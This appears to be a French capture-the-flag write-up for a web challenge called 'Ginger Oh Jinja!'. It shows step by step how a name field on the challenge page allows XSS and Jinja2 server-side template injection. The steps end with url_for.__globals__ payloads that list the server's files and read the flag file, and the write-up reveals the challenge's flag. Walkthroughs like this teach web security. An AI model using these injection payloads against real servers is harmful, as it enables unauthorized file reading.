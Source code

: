 ﻿* * * * *
                             Ginger Oh Jinja!
* * * * *

**Enoncé:** [Lien de l'epreuve](http://hackerlab.bj:5000)

Ouvrons le lien dans un nouvel onglet. Il y a un formulaire sur la page nous demandant notre code name:
```html
<!DOCTYPE html
<html>
	<body>
		<form action="/" method="post"> 
			Your code name cyber-amazone!<br>  
			<input type="text" name="name" value="">  
			<input type="submit" value="Submit">  
		</form>
		<h2>Hello ! </h2>
	</body>
</html>
```

Quand on rentre un mot au hasard, ça a l'air de nous reformater cela:

==Ex:==  **Hello  n34r!**

Essayons d'entrer un code javascript comme:
```javascript
<script> alert("hallo")</script>
``` 
On a effectivement notre popup alerte qui affiche `hallo`. Cela nous fais donc penser à une faille **XSS**. Peut être aussi avec du code [**Jinja2**](https://jinja.palletsprojects.com/en/2.10.x/). Essayons d'injecter: 
```jinja2
{{ 5 * 5 }}
```
Cela affiche **Hello 25!** sur la page
Et oui ça marche, nous avons affaire donc à du **SSTI (Server Side Template Injection)**   [**Voir plus**](https://portswigger.net/research/server-side-template-injection). 
Essayons maintenant de lister les fichiers contenus dans le répertoire courant du code source du serveur. Pour cela nous allons injecter le code suivant:

```jinja2
{{ url_for.__globals__.os.__dict__.listdir('.') }}
```
Après cela nous avons ceci à l'écran:

**Hello ['frferfrflag.txt', 'requirements.sh', 'server.py', 'run.sh']!**

Nous avons donc la liste des fichiers contenus dans le répertoire courant. Le fichier **frferfrflag.txt** attire notre attention, il pourrait contenir le flag. Nous allons lire son contenu. Pour cela injectons ce code:

```jinja2
{{ url_for.__globals__.__builtins__.open('frferfrflag.txt').read() }}
```
Après cela nous avons ceci à l'écran:

 **Hello CTF_TemplateBestInjector !** 
 Et bingo nous avons le flag:  **CTF_TemplateBestInjector**

